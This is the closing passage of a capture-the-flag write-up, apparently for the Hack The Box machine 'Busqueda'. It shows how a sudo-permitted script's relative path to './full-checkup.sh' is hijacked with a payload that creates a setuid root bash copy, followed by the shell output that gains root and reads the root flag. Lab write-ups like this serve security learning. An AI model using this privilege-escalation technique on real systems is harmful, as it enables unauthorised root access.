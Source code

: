 The relative path used for `./full-checkup.sh` presents the needed opportunity to hijack the script:

```console
svc@busqueda:~$ vi full-checkup.sh
# Payload: cp /bin/bash /tmp/x; chown root:root /tmp/x; chmod 6777 /tmp/x
svc@busqueda:~$ chmod +x full-checkup.sh
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup[+] Done!
svc@busqueda:~$ ls -l
total 1424
-rwxr-xr-x 1 svc  svc       90 May 15 22:01 full-checkup.sh
-rw-r--r-- 1 svc  svc    48825 May 15 20:03 lp.out
drwx------ 3 svc  svc     4096 May 15 19:30 snap
-rw-r----- 1 root svc       33 May 15 18:14 user.txt
-rwsrwsrwx 1 root root 1396520 May 15 22:02 x
svc@busqueda:~$ ./x -p
x-5.1# id
uid=1000(svc) gid=1000(svc) euid=0(root) egid=0(root) groups=0(root)
x-5.1# cat /root/root.txt
2756fb...
```

## Credits

Thanks [0xdf](https://0xdf.gitlab.io/2023/08/12/htb-busqueda.html) for the hints.
